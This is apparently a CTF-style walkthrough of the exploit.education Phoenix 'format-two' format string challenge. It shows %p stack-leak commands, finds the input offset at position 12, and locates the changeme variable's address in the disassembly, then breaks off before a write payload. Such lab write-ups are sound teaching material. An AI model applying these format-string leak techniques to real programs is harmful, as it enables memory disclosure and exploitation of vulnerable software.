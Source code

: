 ### COMMON BADCHARS

- \x00 (Null)
- \x09 (Tab)
- \x0a (New line)
- \x0d (Return)
- \x20 (Space)

So there is no way we could overwrite ```changeme``` with a buffer

But in order to pass the program, we have to change the ```changeme``` variable 

Lets try passing some format strings in it,

```c
user@phoenix-amd64:~$ ./format-two %p%p%p%p%p%p%p%p
Welcome to phoenix/format-two, brought to you by https://exploit.education
00xf000x7fffffffe5a00x7fffffffe54f0x7fffffffe5900x7fffffffe5900x7fffffffe690Better luck next time!

```

So it is popping the values from stack

Lets find the offset where our input comes into stack

```c
user@phoenix-amd64:~$ ./format-two AAAABBBB%p%p%p%p%p%p%p%p%p%p%p%p%p
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAABBBB00xe00x7fffffffe5a20x7fffffffe53f0x7fffffffe5800x7fffffffe5800x7fffffffe6800x4007050x7fffffffe6d80x2004003680x42424242414141410x7025702570257025Better luck next time!

```

So our input comes in the 12th offset ```0x4242424241414141```

We can also pass this like,

```c
user@phoenix-amd64:~$ ./format-two "AAAABBBB %p %p %p %p %p %p %p %p %p %p %p %p %p"
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAABBBB 0 0x1 0 0x7fffffffe59f 0x7fffffffe52f 0x7fffffffe570 0x7fffffffe570 0x7fffffffe670 0x400705 0x7fffffffe6c8 0x200400368 0x4242424241414141 0x2520702520702520Better luck next time!

```

We cannot point the offset directly in our input, it fails like this

```c
user@phoenix-amd64:~$ ./format-two "AAAA %12$p"
Welcome to phoenix/format-two, brought to you by https://exploit.education
Better luck next time!

```

We have to use our whole buffer space for this

For address of ```changeme```,

```c
  0x0000000000400705 <+120>:	mov    eax,DWORD PTR [rip+0x2003e5]        # 0x600af0 <changeme>
```
